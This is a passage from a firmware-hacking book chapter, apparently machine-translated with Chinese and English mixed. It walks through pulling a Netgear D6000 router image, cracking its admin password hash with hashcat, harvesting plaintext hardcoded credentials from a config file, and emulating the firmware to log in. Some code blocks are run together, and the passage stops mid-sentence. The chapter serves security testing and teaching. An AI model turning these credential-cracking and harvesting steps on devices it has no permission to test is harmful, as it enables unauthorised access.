

# 第九章：固件黑客攻击


固件是将设备硬件层与其主要软件层连接起来的软件部分。设备中这一部分的漏洞可能会对所有设备功能产生巨大影响。因此，识别并减轻固件漏洞对保障物联网设备安全至关重要。

本章将探讨什么是固件，以及如何获取它并分析其中的漏洞。我们首先通过在固件的文件系统中查找用户凭据开始。接着，我们将模拟固件的部分已编译二进制文件，以及整个固件，进行动态分析。我们还将修改一个公开可用的固件，添加一个后门机制，并讨论如何发现存在漏洞的固件更新服务。

## 固件与操作系统

固件是一种软件，它提供设备硬件组件的通信与控制。它是设备运行的第一段代码。通常，固件启动操作系统，并通过与各种硬件组件的通信，提供非常特定的运行时服务供程序使用。大多数电子设备都有固件，甚至可以说没有例外。

尽管固件是比操作系统更简单、更可靠的软件部分，但它也更具限制性，并且设计上仅支持特定硬件。相比之下，许多物联网设备运行的操作系统异常先进且复杂，支持大量产品。例如，基于微软 Windows 的物联网设备通常使用 Windows 10 IoT Core、Windows Embedded Industry（也称为 POSReady 或 WEPOS）以及 Windows Embedded CE 等操作系统。基于嵌入式 Linux 变种的物联网设备通常使用如 Android Things、OpenWrt 和 Raspberry Pi OS 等操作系统。另一方面，旨在处理具有特定时间约束和无缓冲延迟的实时应用程序的物联网设备，通常基于实时操作系统（RTOS），如 BlackBerry QNX、Wind River VxWorks 和 NXP MQX mBed。此外，设计上支持简单基于微控制器应用程序的“裸机”物联网设备，通常直接在硬件上执行汇编指令，而不使用复杂的操作系统调度算法来分配系统资源。尽管如此，这些实现每一种都有其与兼容启动程序的启动顺序。

在较为简单的物联网设备中，固件可能充当操作系统的角色。设备将固件存储在非易失性存储器中，如 ROM、EPROM 或闪存。

检查固件并尝试修改它非常重要，因为在此过程中，我们可以发现许多安全问题。用户通常会修改固件以解锁新功能或进行个性化定制。但攻击者也可以通过相同的手段，更好地理解系统的内部工作原理，甚至利用安全漏洞。

## 获取固件

在你进行固件逆向工程之前，你必须找到一种方法来访问固件。通常，依据设备的不同，会有多种方法。在本节中，我们将根据 OWASP 固件安全测试方法论(FSTM)介绍最常用的固件提取方法，你可以在[`scriptingxss.gitbook.io/firmware-security-testing-methodology/`](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)找到相关内容。

通常，找到固件的最简单方法是浏览供应商的支持网站。一些供应商会将其固件公开，以简化故障排除。例如，网络设备制造商 TP-Link 在其网站上提供了来自路由器、摄像头和其他设备的固件文件库。

如果特定设备的固件未公开，可以尝试向供应商索要。有些供应商可能会直接提供固件。你可以直接联系开发团队、制造商或供应商的其他客户。确保你始终验证你联系的人是否获得了供应商的许可来分享固件给你。尝试获取开发版和发布版固件是值得的。这样做将使你的测试更加有效，因为你可以看到两个版本之间的差异。此外，一些保护机制可能会在开发版中被移除。例如，Intel RealSense 在[`dev.intelrealsense.com/docs/firmware-releases/`](https://dev.intelrealsense.com/docs/firmware-releases/)提供其摄像头的生产和开发固件。

有时候，你可能需要手动构建固件。对于某些人来说，这是一个令人畏惧的操作，但解决方案就是解决方案。固件源代码可能是公开的，尤其是在开源项目中。在这些情况下，按照制造商发布的操作步骤和说明，可能可以构建固件。第六章中使用的 OpenWrt 操作系统就是一个这样的开源固件项目，主要应用于嵌入式设备中进行网络流量路由。例如，GL.iNet 路由器的固件基于 OpenWrt。

另一种常见的方法是探索强大的搜索引擎，例如使用 Google Dorks*.* 通过正确的查询，你几乎可以在线找到任何内容。搜索 Google 以查找托管在文件共享平台上的二进制文件扩展名，如 MediaFire、Dropbox、Microsoft OneDrive、Google Drive 或 Amazon Drive。经常会看到客户上传到论坛或客户和公司博客上的固件镜像。还可以查看网站的评论区，看看客户和制造商之间的交流。你可能会找到如何获取固件的信息，或者甚至可能发现制造商向客户发送了压缩文件或链接，以从文件共享平台下载固件。以下是一个 Google Dork 示例，用于定位 Netgear 设备的固件文件：

```
intitle:"Netgear"  intext:"Firmware Download"
```

`intitle`参数指定页面标题中必须包含的文本，而`intext`参数指定页面内容中必须包含的文本。此搜索返回了图 9-1 中显示的结果。

此外，不要忽视发现暴露的云存储位置的可能性。搜索 Amazon S3 桶；如果足够幸运，你可能会在厂商未保护的桶中找到固件。（出于法律原因，请确保这些桶没有被意外暴露，并且厂商已授权你访问任何现有的文件。）S3Scanner 工具可以枚举厂商的 Amazon S3 桶。该工具是用 Python 3 编写的，Kali Linux 中已预装。你可以使用`git`命令下载该应用程序：

```
$ **git clone https://github.com/sa7mon/S3Scanner**
```


图 9-1：使用 Google Dork 发现 Netgear 设备的固件链接

然后在*应用程序*文件夹中导航，使用`pip3`命令安装所需的依赖项，该命令在 Kali Linux 中也可用：

```
# cd S3Scanner
# pip3 install -r requirements.txt
```

现在你可以搜索厂商的 Amazon S3 桶，并枚举哪些提供固件访问：

```
$ **python3 s3scanner.py vendor_potential_buckets.txt**
2020-05-01 11:16:42   Warning: AWS credentials not configured. Open buckets will be shown as closed. Run: `aws configure` to fix this.
2020-05-01 11:16:45   [found] : netgear | AccessDenied | ACLs: unknown - no aws creds
2020-05-01 11:16:46   [not found] : netgear-dev
2020-05-01 11:16:46   [not found] : netgear-development
2020-05-01 11:16:46   [not found] : netgear-live
2020-05-01 11:16:47   [not found] : netgear-stag
2020-05-01 11:16:47   [not found] : netgear-staging
2020-05-01 11:16:47   [not found] : netgear-prod
2020-05-01 11:16:48   [not found] : netgear-production
2020-05-01 11:16:48   [not found] : netgear-test
2020-05-01 11:16:52   [found] : tplink | AccessDenied | ACLs: unknown - no aws creds
2020-05-01 11:16:52   [not found] : tplinl-dev 
```

参数`vendor_potential_buckets.txt`指定了一个潜在的桶名称文件供工具尝试。你可以创建自己类似的自定义文件，并提供厂商名称，后跟 S3 桶的常见后缀，如`-dev`、`-development`、`-live`、`-staging`和`-prod`。工具最初会输出一个警告通知，表示缺少你的 AWS 凭证，但这是预期的，你可以忽略它。然后，工具会输出发现的 S3 桶及其访问状态。

如果设备配有配套软件，可以尝试应用程序分析方法。通过分析设备的移动配套应用程序或 *厚客户端*——完全功能的计算机，操作时不需要网络连接——你可能会发现硬编码的端点，应用程序通过这些端点进行通信。这些端点中的一个可能是用于在更新过程中自动下载固件的端点。无论该端点是否经过身份验证，你都应该能够通过分析客户端来下载固件。你可以在第十四章找到分析此类应用程序的方法。

对于仍然接收制造商更新和错误修复的设备，你通常可以在 OTA 更新过程中执行有效的中间人攻击。这些更新通过网络通道从中央服务器或服务器集群推送到每个连接的设备。根据下载固件的应用逻辑复杂性，拦截流量可能是最简单的解决方案。为此，你需要在设备上安装受信任的证书（假设传输是通过 HTTPS 进行的），并使用网络嗅探器、毒化技术（例如 ARP 缓存投毒）和代理来截取流量，并将二进制通信保存到文件中。

在许多设备中，也可能通过设备的引导加载程序转储固件。引导加载程序通常可以通过多种方式访问，例如通过嵌入式串行 RS232 端口、使用特殊的键盘快捷键或通过网络。此外，在大多数消费类设备中，引导加载程序被编程为允许读取和写入闪存。

如果硬件包含暴露的编程接口，如 UART、JTAG 和 SPI，尝试直接连接到这些接口以读取闪存。第七章和第八章将详细解释如何识别和使用这些接口。

最后一种也是最困难的方法是直接从闪存芯片（例如通过 SPI）或 *微控制器单元（MCU）* 提取固件。MCU 是嵌入在设备板上的单一芯片，包含 CPU、内存、时钟和控制单元。你需要一个芯片编程器来完成此操作。

## 破解 Wi-Fi 调制解调器路由器

在本节中，我们将以一款非常流行的 Wi-Fi 调制解调器路由器——Netgear D6000 为目标。我们将首先提取该固件的文件系统，并在其中搜索用户凭证。然后，我们将对其进行仿真以进行动态分析。

要找到此固件，导航到厂商网站，找到该设备型号的支持页面（[`www.netgear.com/support/product/D6000.aspx`](https://www.netgear.com/support/product/D6000.aspx)）。你应该能看到可用的固件和软件下载列表（图 9-2）。

下载文件。由于固件是压缩格式，使用 `unzip` 命令来提取它。你可以使用 `apt-get` 安装 `unzip`：

```
$ **mkdir** **d6000 && cd d6000**
$ **wget****http://www.downloads.netgear.com/files/GDC/D6000/D6000_V1.0.0.41_1.0.1_FW.zip**
**unzip D6000_V1.0.0.41_1.0.1_FW.zip**
```



图 9-2：Netgear D6000 支持页面

`wget` 命令是一个 Unix 工具，用于以非交互方式从网络下载文件。在没有任何附加参数的情况下，`wget` 会将文件保存在当前工作目录中。然后，`unzip` 工具会创建一个名为 *D6000_V1.0.0.41_1.0.1_FW* 的文件夹，里面包含两个文件：*D6000-V1.0.0.41_1.0.1.bin*，这是设备的固件文件，以及 *D6000_V1.0.0.41_1.0.1_Software_Release_Notes.html*，它包含厂商关于如何手动安装此固件的说明。

一旦你获取了固件文件，就可以分析它是否存在安全问题。

### 提取文件系统

大多数消费级路由器的固件包含设备的文件系统，并且是以压缩格式存储的。有时，固件会使用多种算法（如 LZMA 和 LZMA2）多次压缩。让我们提取这个文件系统，挂载它，并搜索其内容以发现安全漏洞。要定位固件文件中的文件系统，可以使用 `binwalk` 工具，该工具在 Kali Linux 中已预安装：

```
$ **binwalk** **-e** **-M** **D6000-V1.0.0.41_1.0.1.bin**
```

`-e` 参数提取固件中任何已识别的文件，例如引导加载程序和文件系统。`-M` 参数递归扫描提取的文件，并执行签名分析，以便根据常见模式识别文件类型。但要小心，如果 `binwalk` 无法正确识别文件类型，它有时会填满你的硬盘。你现在应该有一个名为 *_D6000-V1.0.0.41_1.0.1.bin.extracted* 的新文件夹，其中包含提取的内容。

请注意，我们使用的是 binwalk 版本 2.1.2-a0c5315\。一些早期版本无法正确提取文件系统。我们建议你使用最新版本的 binwalk，它可以在 GitHub 上找到，网址是 [`github.com/ReFirmLabs/binwalk/`](https://github.com/ReFirmLabs/binwalk/)。

### 静态分析文件系统内容

既然我们已经提取了文件系统，就可以浏览这些文件，尝试找到一些有用的信息。一个好的方法是首先搜索易于获取的信息，比如存储在配置文件中的凭据或具有公开漏洞通告的过时版本的常见二进制文件。寻找任何名为 *passwd* 或 *shadow* 的文件，它们通常包含系统上所有用户帐户的信息，包括用户的密码。你可以使用如 `grep` 或 `find` 这样的常用工具来执行此操作，这些工具在任何 Unix 系统中都会预安装：

```
~/d600/_D6000-V1.0.0.41_1.0.1.bin.extracted$ **find** **.** **-name** **passwd** 
./squashfs-root/usr/bin/passwd
./squashfs-root/usr/etc/passwd
```

使用 `.` 命令，我们指示 Find 工具在当前工作目录中搜索由 `-name` 参数指定的文件。在这种情况下，我们正在寻找一个名为 *passwd* 的文件。正如你所看到的，我们找到了两个具有该名称的文件。

*bin/passwd* 二进制文件在当前形式下无法提供有用的信息。另一方面，*etc/passwd* 文件是可读的格式。你可以使用 `cat` 工具读取它：

```
$ **cat** **.****/****squashfs****-root/****usr****/****etc****/passwd**
admin:$1$$iC.dUsGpxNNJGeOm1dFio/:0:0:root:/:/bin/sh$ 
```

*etc/passwd*文件包含了一个文本数据库，列出了可以认证到系统的用户。目前只有一个条目，是设备管理员的条目。该条目包含以下字段，通过冒号分隔：用户名、用户密码的哈希、用户标识符、组标识符、用户的附加信息、用户的主文件夹路径，以及用户登录时执行的程序。我们来关注一下密码哈希`($1$$iC.dUsGpxNNJGeOm1dFio/)`。

#### 破解设备的管理员凭证

使用`hashid`检测管理员密码的哈希类型。这个工具已经预装在 Kali Linux 中，可以通过正则表达式识别超过 220 种独特的哈希类型：

```
$ **hashid** **$1****$$iC.dUsGpxNNJGeOm1dFio/**
Analyzing '$1$$iC.dUsGpxNNJGeOm1dFio/'
**[+] MD5 Crypt**
[+] Cisco-IOS(MD5) 
[+] FreeBSD MD5 
```

根据输出，我们发现了一个`MD5 Crypt`哈希。现在我们可以尝试使用暴力破解工具来破解这个密码，比如 john 或 hashcat。这些工具会遍历一个潜在密码的列表，寻找与哈希匹配的密码。

```
$ **hashcat** **-a 3 -m** **500** **.****/****squashfs****-root/****usr****/****etc****/passwd**
…
Session..........: hashcat
Status...........: Exhausted
Hash.Type........: md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5)
Hash.Target......: $1$$iC.dUsGpxNNJGeOm1dFio/
Time.Started.....: Sat Jan 11 18:36:43 2020 (7 secs)
Time.Estimated...: Sat Jan 11 18:36:50 2020 (0 secs)
Guess.Mask.......: ?1?2?2 [3]
Guess.Charset....: -1 ?l?d?u, -2 ?l?d, -3 ?l?d*!$@_, -4 Undefined 
Guess.Queue......: 3/15 (20.00%)
Speed.#2.........:     2881 H/s (0.68ms) @ Accel:32 Loops:15 Thr:8 Vec:1
Speed.#3.........:     9165 H/s (1.36ms) @ Accel:32 Loops:15 Thr:64 Vec:1
Speed.#*.........:    12046 H/s
Recovered........: 0/1 (0.00%) Digests, 0/1 (0.00%) Salts
Progress.........: 80352/80352 (100.00%)
Rejected.........: 0/80352 (0.00%)
Restore.Point....: 205/1296 (15.82%)
Restore.Sub.#2...: Salt:0 Amplifier:61-62 Iteration:990-1000
Restore.Sub.#3...: Salt:0 Amplifier:61-62 Iteration:990-1000
Candidates.#2....: Xar -> Xpp
Candidates.#3....: Xww -> Xqx

$1$$iC.dUsGpxNNJGeOm1dFio/:1234                  [s]tatus [p]ause [b]ypass [c]heckpoint [q]uit => 
```

`-a`参数定义了用于猜测明文密码的攻击模式。我们选择模式`3`来进行暴力破解攻击。模式`0`会执行字典攻击，模式`1`会执行*组合攻击*，将一个字典中的每个单词附加到另一个字典中的每个单词上。你还可以使用模式 6 和 7 进行更专业的攻击。例如，如果你知道密码的最后一个字符是数字，你可以配置工具只尝试以数字结尾的密码。

`-m`参数定义了我们要破解的哈希类型，`500``` represents`an MD5 Crypt. You can find more details about the supported hash types on the hashcat web page ([`hashcat.net/hashcat/`](https://hashcat.net/hashcat/)).` ``

We recovered the password `1234`. It took hashcat less than a minute to crack it!

#### Finding Credentials in Configuration Files

Using a similar approach to the one at the beginning of this section where we located the *passwd* file, let’s search the firmware for other secrets. You can often find hardcoded credentials in the configuration files, which end in the *cfg* extension. The device uses these files to configure the initial state of a service.

Let’s search for files with the *cfg* extension using the `find` command:

```

$ **find .** **-name *****cfg**

./userfs/profile.cfg

./userfs/romfile.cfg

./boaroot/html/NETGEAR_D6000.cfg

./boaroot/html/romfile.cfg

./boaroot/html/NETGEAR_D6010.cfg

./boaroot/html/NETGEAR_D3610.cfg

./boaroot/html/NETGEAR_D3600.cfg

```

You can then look through the configuration files for relevant information. In *romfile.cfg*, for example, we find a number of hardcoded user account credentials:

```

$ **cat ./****squashfs****-root/****userfs****/****romfile.cfg**

…

<Account>

    <Entry0 username="admin" web_passwd="password" console_passwd="password" display_mask="FF FF F7 FF FF FF FF FF FF" old_passwd="password" changed="1" temp_passwd="password" expire_time="5" firstuse="0" blank_password="0"/>

    <Entry1 username="qwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyui" web_passwd="12345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678901234567890123456789012345678" display_mask="F2 8C 84 8C 8C 8C 8C 8C 8C"/>

    <Entry2 username="anonymous" web_passwd="anon@localhost" display_mask="FF FF F7 FF FF FF FF FF FF"/>

</Account>

…

```

We’ve discovered three new users called `admin`, `qwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyui`, and `anonymous` with their corresponding passwords, which are in plaintext this time.

Remember that we’ve already cracked the credentials for the admin account, yet the password we recovered doesn’t match the one listed here. It’s likely that the first password we found will be replaced by the one in the configuration file on the first boot. Vendors often use configuration files to perform security-related changes when initializing a device. This approach also permits vendors to deploy the same firmware in devices that support different functionalities and require specific settings to operate successfully.

#### Automating Firmware Analysis

The Firmwalker tool can automate the information gathering and analysis process we just walked through. Install it from [`github.com/craigz28/firmwalker/`](https://github.com/craigz28/firmwalker/), and then run it:

```

$ **git clone https://github.com/craigz28/firmwalker**

$ **cd** **firmwalker**

$ **./firmwalker.sh ../d6000/_D6000-V1.0.0.41_1.0.1.bin.extracted/****squashfs****-root/**

***固件目录***

../d6000/_D6000-V1.0.0.41_1.0.1.bin.extracted/squashfs-root/

***搜索密码文件***

##################################### passwd

/usr/etc/passwd

/usr/bin/passwd

##################################### shadow

##################################### *.psk

***搜索 Unix-MD5 哈希值***

***搜索 SSL 相关文件***

##################################### *.crt

/usr/etc/802_1X/Certificates/client.crt

##################################### *.pem

/usr/etc/key.pem

/usr/etc/802_1X/CA/cacert.pem

/usr/etc/cert.pem

…

/usr/etc/802_1X/PKEY/client.key

…

##################################### *.cfg

…

/userfs/romfile.cfg

…

```

The tool automatically located the files we identified manually, among others that also look suspicious. We’ll leave the examination of these new files as an exercise for you to complete.

Netgear patched the vulnerability caused by the hardcoded credentials in the latest firmware and published a security advisory ([`kb.netgear.com/30560/CVE-2015-8288-Use-of-Hard-coded-Cryptographic-Key/`](https://kb.netgear.com/30560/CVE-2015-8288-Use-of-Hard-coded-Cryptographic-Key/)) that informs customers about this issue.

### Firmware Emulation

In this section, we’ll show you how to emulate a firmware. Once we’ve done so, we can perform dynamic analysis tests that are only possible while the firmware is operating normally. We’ll use two emulation techniques: binary emulation using *Quick Emulator (QEMU)* and whole firmware emulation using FIRMADYNE. QEMU is an open source machine emulator and analyzer that works with multiple operating systems and programs, whereas FIRMADYNE ([`github.com/firmadyne/firmadyne/`](https://github.com/firmadyne/firmadyne/)) is a platform for automating the emulation and dynamic analysis of Linux-based firmware.

#### Binary Emulation

Emulating a single binary in the firmware is a quick way to infer the related business logic and dynamically analyze the provided functionality for security vulnerabilities. This approach also allows you to use specialized binary analysis tools, disassemblers, and fuzzing frameworks that you usually can’t install in environments with limited resources. Those environments include embedded systems or those that aren’t efficient to use with large and complex inputs, such as a complete device firmware. Unfortunately, you might not be able to emulate binaries that have specialized hardware requirements and look for specific serial ports or device buttons. Also, you might have trouble emulating binaries that depend on shared libraries that get loaded at runtime or those that need to interact with the platform’s other binaries to operate successfully.

To emulate a single binary, we first need to identify its endianness and the CPU architecture for which it was compiled. You can find the main binaries on Linux distributions in the *bin* folder and list them using the `ls` command, which is preinstalled in Kali Linux:

```

$ **ls -****l .****/****squashfs****-root/bin/**

总计 492

lrwxrwxrwx 1 root root 7 2015 年 1 月 24 日 ash -> busybox

-rwxr-xr-x 1 root root 502012 2015 年 1 月 24 日 busybox

lrwxrwxrwx 1 root root 7 2015 年 1 月 24 日 cat -> busybox

lrwxrwxrwx 1 root root 7 2015 年 1 月 24 日 chmod -> busybox

…

lrwxrwxrwx 1 root root 7 2015 年 1 月 24 日 zcat -> busybox

```

The `-l` parameter displays extra information about the files, including the paths of *symbolic links* (references to other files or directories). As you can see, all binaries in the directory are symbolic links to the *busybox* executable. In limited environments, such as embedded systems, it’s very common to have only a single binary called *busybox*. This binary performs tasks similar to those of Unix-based operating system executables but uses fewer resources. Attackers have successfully targeted past versions of *busybox*, but the identified vulnerabilities have been mitigated in the latest versions.

To see the *busybox* executable’s file format, use the `file` command:

```

$ **file .****/****squashfs****-root/bin/****busybox**

./squashfs-root/bin/busybox: ELF 32 位 MSB 可执行文件，MIPS，MIPS32 rel2 版本 1（SYSV），动态链接，解释器 /lib/ld-uClibc.so.0，已去除符号信息

```

The executable file format is for the MIPS CPU architecture, which is very common in lightweight embedded devices. The `MSB` label in the output indicates that the executable follows a big-endian byte ordering (as opposed to an output containing the `LSB` label, which would indicate a little-endian byte ordering).

Now we can emulate the *busybox* executable using QEMU. Install it using `apt-get`:

```

$ **sudo** **apt-get install** **qemu****qemu****-user** **qemu****-user-static** **qemu****-system-arm** **qemu****-system-****mips** **qemu-system-x86** **qemu****-utils**

```

Because the executables are compiled for MIPS and follow the big-endian byte ordering, we’ll use QEMU’s `qemu-mips` emulator. To emulate little-endian executables, we would have to select the emulator with the `el` suffix, which in this case would be `qemu-mipsel:`

```

$ **qemu-mips** **-****L .****/****squashfs****-root/** **./****squashfs****-root/bin/****zcat**

zcat: 压缩数据未从终端读取。请使用 -f 强制操作。

```

You can now perform the rest of the dynamic analysis by fuzzing, debugging, or even performing symbolic execution. You can learn more about these techniques in *Practical Binary Analysis* by Dennis Andriesse (No Starch Press, 2018).

#### Complete Firmware Emulation

To emulate the whole firmware rather than a single binary, you can use an open source application called `firmadyne`. FIRMADYNE is based on QEMU, and it’s designed to perform all the necessary configurations of the QEMU environment and host system for you, simplifying the emulation. But note that FIRMADYNE isn’t always completely stable, especially when the firmware interacts with very specialized hardware components, such as device buttons or secure enclave chips. Those parts of the emulated firmware might not work correctly.

Before we use FIRMADYNE, we need to prepare the environment. The following commands install the packages that this tool needs to operate and clones its repository to our system.

```

$ **sudo** **apt-get install** **busybox****-static** **fakeroot** **git** **dmsetup****kpartx****netcat-openbsd****nmap** **python-psycopg2 python3-psycopg2** **snmp****uml****-utilities util-****linux****vlan**

$ **git clone --recursive https://github.com/firmadyne/firmadyne.git**

```

At this point, you should have a *firmadyne* folder on your system. To quickly set up the tool, navigate to the tool’s directory and run *./setup.sh*. Alternatively, you can manually set it up using the steps shown here. Doing so allows you to select the appropriate package managers and tools for your system.

You’ll also have to install a PostgreSQL database to store information used for the emulation. Create a FIRMADYNE user using the `-P` switch. In this example, we use `firmadyne` as the password, as recommended by the tool’s authors:

```

$ **sudo** **apt-get install** **postgresql**

$ **sudo service postgresql start**

$ **sudo** **-u** **postgres****createuser** **-P** **firmadyne**

```

Then create a new database and load it with the database schema available in the *firmadyne* repository folder:

```

$ **sudo** **-u** **postgres****createdb** **-O** **firmadyne** **firmware**

$ **sudo** **-u** **postgres****psql** **-d firmware** **< .****/****firmadyne****/database/schema**

```

Now that the database is set up, download the prebuilt binaries for all the FIRMADYNE components by running the *download.sh* script located in the repository folder. Using the prebuilt binaries will significantly reduce the overall setup time.

```

$ **cd .****/****firmadyne****; ./download.sh**

```

Then set the `FIMWARE_DIR` variable to point to the current working repository in the *firmadyne.config*`file located in the same folder. This change allows FIRMADYNE to locate the binaries in the Kali Linux filesystem.`

 ``````` ``` FIRMWARE_DIR=**/home/root/Desktop/****firmadyne** … ```    In this example, the folder is saved on the Desktop, but you should replace the path with the folder’s location on your system. Now copy or download the firmware for the D6000 device (obtained in “Hacking a Wi-Fi Modem Router” on page 211) into this folder:    ``` $ **wget** **http://www.downloads.netgear.com/files/GDC/D6000/D6000_V1.0.0.41_1.0.1_FW.zip** ```    FIRMADYNE includes an automated Python script for extracting the firmware. But to use the script, you must first install Python’s `binwalk` module:    ``` $ **git clone https://github.com/ReFirmLabs/binwalk.git** $ **cd** **binwalk** $ **sudo** **python setup.py install** ```    We use the `python` command to initialize and set up `binwalk`. Next, we need two more `python` packages, which we can install using Python’s `pip` package manager:    ``` $ **sudo** **-H pip install** **git+https****://github.com/****ahupp****/python-magic** $ **sudo** **-H pip install** **git+https****://github.com/****sviehb****/****jefferson** ```    Now you can use FIRMADYNE’s *extractor.py* script to extract the firmware from the compressed file:    ``` $ **.****/sources/extractor/extractor.py -b Netgear -****sql 127.0.0.1 -np -nk** **"D6000_V1.0.0.41_1.0.1_FW.zip" images** >> Database Image ID: 1 /home/user/Desktop/firmadyne/D6000_V1.0.0.41_1.0.1_FW.zip >> MD5: 1c4ab13693ba31d259805c7d0976689a >> Tag: 1 >> Temp: /tmp/tmpX9SmRU >> Status: Kernel: True, Rootfs: False, Do_Kernel: False,                 Do_Rootfs: True >>>> Zip archive data, at least v2.0 to extract, compressed size: 9667454, uncompressed size: 9671530, name: D6000-V1.0.0.41_1.0.1.bin >> Recursing into archive ... /tmp/tmpX9SmRU/_D6000_V1.0.0.41_1.0.1_FW.zip.extracted/D6000-V1.0.0.41_1.0.1.bin     >> MD5: 5be7bba89c9e249ebef73576bb1a5c33     >> Tag: 1 1     >> Temp: /tmp/tmpa3dI1c     >> Status: Kernel: True, Rootfs: False, Do_Kernel: False,                 Do_Rootfs: True     >> Recursing into archive ...     >>>> Squashfs filesystem, little endian, version 4.0, compression:lzma, size: 8252568          bytes, 1762 inodes, blocksize: 131072 bytes, created: 2015-01-24 10:52:26     Found Linux filesystem in /tmp/tmpa3dI1c/_D6000-V1.0.0.41_1.0.1.bin.extracted/squashfs-     root! 2  >> Skipping: completed!         >> Cleaning up /tmp/tmpa3dI1c... >> Skipping: completed! >> Cleaning up /tmp/tmpX9SmRU... ```    The `-b` parameter specifies the name used to store the results of the extraction. We opted to use the firmware vendor’s name. The `-sql` parameter sets the location of the SQL database. Next, we use two flags recommended by the application’s documentation. The `-nk` parameter keeps any Linux kernel included in the firmware from being extracted, which will speed up the process. The `-np` parameter specifies that no parallel operation will be performed.    If the script is successful, the final lines of the output will contain a message indicating that it found the Linux filesystem 2. The `1` tag 1 indicates that the extracted images are located at *./images/1.tar.gz*.    Use the *getArch.sh* script to automatically identify the firmware’s architecture and store it in the FIRMADYNE database:    ``` $ **./scripts/getArch.sh ./images/1.tar.gz** ./bin/busybox: mipseb ```    FIRMADYNE identified the `mipseb` executable format, which corresponds to MIPS big-endian systems. You should have expected this output, because we got the same result when we used the `file` command in “Binary Emulation” on page 217 to analyze the header of a single binary.    Now we’ll use the *tar2db.py* and *makeImage.sh* scripts to store information from the extracted image in the database and generate a QEMU image that we can emulate.    ``` $**./****scripts/tar2db.py -****i** **1 -f ./images/1.tar.gz** $./**scripts/makeImage.sh 1** Querying database for architecture... Password for user firmadyne:  mipseb … Removing /etc/scripts/sys_resetbutton! ----Setting up FIRMADYNE---- ----Unmounting QEMU Image---- loop deleted : /dev/loop0 ```    We provide the tag name with the `-i` parameter and the location of the extracted firmware with the `–f` parameter.    We also have to set up the host device so it can access and interact with the emulated device’s network interfaces. This means that we need to configure an IPv4 address and the proper network routes. The *inferNetwork.sh* script can automatically detect the appropriate settings:    ``` $ **./scripts/inferNetwork.sh 1** Querying database for architecture... Password for user firmadyne:  mipseb Running firmware 1: terminating after 60 secs... qemu-system-mips: terminating on signal 2 from pid 6215 (timeout) Inferring network... Interfaces: [('br0', **'192.168.1.1'**)] Done! ```    FIRMADYNE successfully identified an interface with the IPv4 address `192.168.1.1` in the emulated device. Additionally, to begin the emulation and set up the host device’s network configuration, use the *run.sh* script, which is automatically created in the *./scratch/1/*`folder:`   `````` ``` $ **./scratch/1/run.sh** Creating TAP device tap1_0... Set 'tap1_0' persistent and owned by uid 0 Bringing up TAP device... Adding route to 192.168.1.1... Starting firmware emulation... use Ctrl-a + x to exit [    0.000000] Linux version 2.6.32.70 (vagrant@vagrant-ubuntu-trusty-64) (gcc version 5.3.0 (GCC) ) #1 Thu Feb 18 01:39:21 UTC 2016 [    0.000000]  [    0.000000] LINUX started... … Please press Enter to activate this console.  tc login:**admin** Password:  #  ```    应该会出现一个登录提示。你应该能够使用在“在配置文件中查找凭证”第 215 页中发现的一组凭证进行身份验证。    ### 动态分析    现在，你可以像使用主机设备一样使用固件。尽管我们在这里不会详细讲解完整的动态分析过程，但我们会给你一些起步的建议。例如，你可以使用 `ls` 命令列出固件的*rootfs*文件。因为你已经模拟了固件，你可能会发现一些在设备启动后生成的文件，这些文件在静态分析阶段是不存在的。    ``` $ **ls** bin               firmadyne         lost+found        tmp boaroot           firmware_version  proc              userfs dev               lib               sbin              usr etc               linuxrc           sys               var ```    浏览这些目录。例如，在 *etc* 目录中，*/etc/passwd* 文件在基于 Unix 的系统中维护身份验证详情。你可以用它来验证在静态分析中识别的帐户是否存在。    ``` $ **cat /****etc****/passwd**  admin:$1$$I2o9Z7NcvQAKp7wyCTlia0:0:0:root:/:/bin/sh qwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwerty ```  uiopqwertyuiopqwertyuiopqwertyuiopqwertyuiopqwertyui:$1$$MJ7v7GdeVaM1xIZdZYKzL1:0:0:root:/:/bin/sh  ``` anonymous:$1$$D3XHL7Q5PI3Ut1WUbrnz20:0:0:root:/:/bin/sh ```    接下来，识别网络服务和已建立的连接非常重要，因为你可能会发现一些可以在后续阶段进行进一步利用的服务。你可以使用 `netstat` 命令来实现这一点：    ``` $ **netstat -a -n -u -t** Active Internet connections (servers and established) Proto Recv-Q Send-Q Local Address           Foreign Address         State       tcp        0      0 0.0.0.0:3333            0.0.0.0:*               LISTEN       tcp        0      0 0.0.0.0:139             0.0.0.0:*               LISTEN       tcp        0      0 0.0.0.0:53              0.0.0.0:*               LISTEN       tcp        0      0 192.168.1.1:23          0.0.0.0:*               LISTEN       tcp        0      0 0.0.0.0:445             0.0.0.0:*               LISTEN       tcp        0      0 :::80                   :::*                    LISTEN       tcp        0      0 :::53                   :::*                    LISTEN       tcp        0      0 :::443                  :::*                    LISTEN       udp        0      0 192.168.1.1:137         0.0.0.0:*                            udp        0      0 0.0.0.0:137             0.0.0.0:*                            udp        0      0 192.168.1.1:138         0.0.0.0:*                            udp        0      0 0.0.0.0:138             0.0.0.0:*                            udp        0      0 0.0.0.0:50851           0.0.0.0:*                            udp        0      0 0.0.0.0:53              0.0.0.0:*                            udp        0      0 0.0.0.0:67              0.0.0.0:*                            udp        0      0 :::53                   :::*                                 udp        0      0 :::69                   :::*  ```    `-a` 参数请求监听和非监听网络套接字（IP 地址和端口的组合）。`-n` 参数以数字格式显示 IP 地址。`-u` 和 `-t` 参数返回 UDP 和 TCP 套接字。输出表示在 80 和 443 端口上存在一个等待连接的 HTTP 服务器。    要从主机设备访问网络服务，可能需要禁用固件中现有的防火墙实现。在 Linux 平台上，这些实现通常基于 `iptables`，它是一个命令行工具，允许你配置 Linux 内核中的 IP 